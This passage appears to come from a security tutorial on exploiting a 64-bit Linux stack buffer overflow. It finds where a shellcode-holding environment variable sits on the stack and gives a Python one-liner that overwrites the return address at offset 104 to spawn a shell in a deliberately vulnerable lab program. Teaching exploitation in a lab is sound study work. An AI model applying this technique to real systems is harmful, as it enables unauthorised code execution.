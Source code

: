 ```cpp
```
{% endtab %}
{% endtabs %}

Compile it with:

```
gcc getenvvar.c -o getenvvar
```

Then run it like so:

```python
./getenvvar PWN ./vulnerable
```

Note that the `PWN` environment variable will be on the vulnerable program's stack at `0x7fffffffefa8`:

![PWN environment variable location on the stack in the vulnerable program](<../../../.gitbook/assets/image (900).png>)

Convert `0x7fffffffefa8` to its canonical (2 highest bytes masked off) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address (that contains the shellcode that spawns a shell) as the return address at offset 104, like so:

```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```

![Vulnerable program is exploited and results in a new shell](<../../../.gitbook/assets/x64-stack-overflow (1).gif>)

To confirm the exploit worked as expected, we can `unset` the `PWN` environment variable and try to exploit the program again just to see the program crash, since it no longer knows what shellcode to execute:

![Exploit no longer works since shellcode is gone from the PWN environment variable](<../../../.gitbook/assets/image (901).png>)

## References

{% embed url="https://www.ret2rop.com/2018/08/stack-based-buffer-overflow-x64.html" %}

{% embed url="https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/" %}

{% embed url="https://medium.com/@_neerajpal/explained-difference-between-x86-x64-disassembly-49e9678e1ae2" %}

[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf)
@spotheplanet
